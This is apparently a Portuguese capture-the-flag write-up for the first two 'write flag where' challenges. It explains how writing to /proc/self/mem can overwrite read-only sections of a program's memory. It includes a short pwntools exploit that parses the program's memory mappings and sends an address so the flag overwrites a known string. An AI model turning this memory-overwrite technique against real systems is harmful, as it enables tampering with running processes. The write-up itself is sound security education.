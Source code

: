 ### /proc/self/mem

Esse pseudoarquivo do proc filesystem mapeia a memória do seu processo, então podemos ler diretamente o binario que está carregado em memória e também editá-lo, e não existem permissões ou restrições de memória, como “read only memory” ou “read/exec memory”, podemos sobrescrever qualquer coisa dentro do binário em memória escrevendo nesse arquivo, inclusive a .text ou .rodata.

---

Com isso falado, já fica mais claro oque temos que fazer, neste primeiro challenge, a única coisa que precisamos fazer é escrever a flag por cima da string “Give me an address and a length just so”, exploit:

```python
# pwn template ./chal --host wfw1.2023.ctfcompetition.com --port 1337
...
io = start()

io.recvuntil(b"I'll give you my mappings so that you'll have a shot.")
maps = io.recvuntil(b'\n\n')

elf_base = parse_maps(maps)
log.info('Elf base: ' + hex(elf_base))
pause()

io.recvuntil(b'Send me nothing and I will happily expire')

string_addr = elf_base + 0x21e0
io.sendline(f'{hex(string_addr)} 100'.encode())

io.interactive()
```

## Second challenge

No segundo challenge, as coisas ficam um pouco mais complicadas, não temos mais uma string para sobrescrever, a única diferença desse para o anterior é a remoção do `dprintf` com a string “Give me an address and a length just so”.

Pensamos em forçar algum erro dentro da libc como um abort da malloc(”free(): double free detected in tcache 2”), poderíamos sobrescrever essa string na libc e forçar qualquer tipo de erro, mas não funcionou, como visto antes, ao tentar escrever no *stderr*, o output será redirecionado para `/dev/null`.

Tentando achar novos alvos para escrever a flag estava lendo as strings do binário, e achei algo interessante:

```bash
r3tr0@pwnmachine:~$ strings ./chal
...
Somehow you got here??
...
```
